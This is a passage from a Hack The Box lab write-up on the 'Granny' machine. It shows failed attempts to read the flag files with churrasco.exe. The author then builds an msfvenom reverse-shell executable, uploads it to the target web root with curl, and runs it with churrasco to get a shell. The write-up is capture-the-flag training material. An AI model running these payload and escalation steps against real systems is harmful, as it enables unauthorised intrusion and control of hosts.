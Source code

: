 I couldn't get the syntax working for directly reading a flag:

```bash
C:\Inetpub\wwwroot>churrasco.exe "type 'C:\Documents and Settings\Lakis\Desktop\user.txt'"
churrasco.exe "type 'C:\Documents and Settings\Lakis\Desktop\user.txt'"
The filename, directory name, or volume label syntax is incorrect.

C:\Inetpub\wwwroot>churrasco.exe "type 'C:\Documents and Settings\Administrator\Desktop\root.txt'"
churrasco.exe "type 'C:\Documents and Settings\Administrator\Desktop\root.txt'"
The filename, directory name, or volume label syntax is incorrect.

C:\Inetpub\wwwroot>churrasco.exe 'type "C:\Documents and Settings\Lakis\Desktop\user.txt"'
churrasco.exe 'type "C:\Documents and Settings\Lakis\Desktop\user.txt"'
''type' is not recognized as an internal or external command,
operable program or batch file.

C:\Inetpub\wwwroot>churrasco.exe "type C:\Documents\ and\ Settings\Lakis\Desktop\user.txt"
churrasco.exe "type C:\Documents\ and\ Settings\Lakis\Desktop\user.txt"
The system cannot find the path specified.

C:\Inetpub\wwwroot>churrasco.exe "type C:/Documents\ and\ Settings/Lakis/Desktop/user.txt"
churrasco.exe "type C:/Documents\ and\ Settings/Lakis/Desktop/user.txt"
The syntax of the command is incorrect.
```

So I used a reverse shell isntead:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/granny]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=9002 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: rev.exe
┌──(mac㉿kali)-[~/Documents/HTB/granny]
└─$ curl -T rev.exe http://10.10.10.15/rev.txt
```

I executed it with `churrasco.exe`:

```bash
C:\Inetpub\wwwroot>rename rev.txt rev.exe
rename rev.txt rev.exe

C:\Inetpub\wwwroot>churrasco.exe "C:\inetpub\wwwroot\rev.exe"
churrasco.exe "C:\inetpub\wwwroot\rev.exe"
```

And got a shell!

![[Pasted image 20210612000915.png]]

That's the box!

![[Pasted image 20210612001312.png]]